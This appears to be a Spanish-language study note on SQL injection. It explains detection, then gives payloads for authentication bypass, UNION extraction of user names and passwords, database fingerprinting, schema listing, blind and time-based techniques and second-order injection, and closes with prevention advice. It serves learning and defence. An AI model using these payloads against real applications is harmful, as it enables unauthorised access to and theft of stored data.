 # Inyecciones SQLi (SQL Injection)

## ¿Qué es la inyección SQL?
La inyección [SQLi](SQLi.md) es una vulnerabilidad que permite a un atacante manipular las consultas SQL de una aplicación para acceder, modificar o eliminar datos en una base de datos. Se produce cuando la entrada del usuario no se valida ni se sanitiza correctamente, permitiendo la ejecución de código SQL malicioso.

---

## Cómo detectar vulnerabilidades de inyección SQL
Algunos métodos para identificar si una aplicación es vulnerable a SQLi incluyen:
- **Pruebas manuales:** Insertar caracteres especiales (`'`, `"`, `;`, `--`, `#`, etc.) en los campos de entrada y observar errores.
- **Errores de la base de datos:** Mensajes como `syntax error` pueden indicar una vulnerabilidad.
- **Automatización:** Uso de herramientas como [SQLmap](sqlmap.md) para detectar y explotar SQLi.

---

## Recuperar datos ocultos
A veces, los datos de la base de datos están ocultos, pero la inyección SQL puede revelar información oculta al modificar consultas, por ejemplo:
```sql
SELECT * FROM productos WHERE id = '1' OR '1'='1';
```

---

## Subvertir la lógica de la aplicación
Los atacantes pueden modificar consultas para eludir la autenticación:
```sql
SELECT * FROM usuarios WHERE usuario = 'admin' AND clave = '' OR '1'='1';
```
Esto permite iniciar sesión sin conocer la contraseña real.

---

## Inyección SQL UNION attacks
Permite unir múltiples consultas SQL para extraer datos de otras tablas.

### Determinar el número de columnas requeridas
```sql
ORDER BY nº; -- Probamos incrementando 'n' hasta encontrar un error
```

### Encontrar columnas con un tipo de datos útil
```sql
UNION SELECT NULL, NULL, 'texto';
```

### Uso de un ataque UNION de inyección SQL para recuperar datos interesantes
```sql
UNION SELECT nombre, clave FROM usuarios;
```

### Recuperar múltiples valores dentro de una sola columna
```sql
UNION SELECT nombre || ' - ' || clave FROM usuarios;
```

---

## Examinar la base de datos
Los atacantes pueden obtener información sobre la estructura de la base de datos.

### Identificar la base de datos en uso
```sql
SELECT @@version; -- Para MySQL
SELECT version(); -- Para PostgreSQL
SELECT banner FROM v$version; -- Para Oracle
```

### Listar tablas y columnas
```sql
SELECT table_name FROM information_schema.tables;
SELECT column_name FROM information_schema.columns WHERE table_name='usuarios';
```

---

## Inyección SQL ciega
Cuando la aplicación no devuelve errores directos, se pueden usar técnicas como:

### Explotar la inyección SQL ciega desencadenando respuestas condicionales
```sql
AND 1=1 -- [Devuelve verdadero]
AND 1=2 -- [Devuelve falso]
```

### Inyección SQL basada en errores
Forzar la aplicación a mostrar errores:
```sql
AND 1=CAST((SELECT clave FROM usuarios LIMIT 1) AS INT);
```

### Explotar la inyección SQL ciega desencadenando retrasos de tiempo
```sql
IF(1=1, SLEEP(5), 0);
```

### Explotar la inyección SQL ciega utilizando técnicas fuera de banda (OAST)
Enviar consultas a servidores externos para filtrar datos.

---

## Inyección SQL en diferentes contextos
- **En URLs:** `https://victima.com/perfil?id=1' OR '1'='1`.
- **En formularios:** Campos de login vulnerables.
- **En encabezados HTTP:** Manipulación de cookies o User-Agent.

---

## Inyección SQL de segundo orden
Los datos maliciosos se almacenan en la base de datos y ejecutan la inyección en otro contexto.

Ejemplo: Un usuario malicioso registra su nombre como:
```sql
admin' --
```
Cuando un administrador lo consulta en otra página, la inyección se ejecuta.

---

##  Cómo prevenir la inyección SQL
**Usar consultas preparadas** con `?` o `bind_param()`:
```sql
SELECT * FROM usuarios WHERE usuario = ? AND clave = ?;
```
**Validar y sanitizar entradas del usuario.**
**Principio de menor privilegio:** No usar cuentas con permisos excesivos.
**Firewalls de aplicaciones web (WAF).**

---
**Conclusión:** La inyección SQL sigue siendo una de las vulnerabilidades más peligrosas, pero con buenas prácticas y medidas de seguridad adecuadas, se puede mitigar el riesgo de ataque.
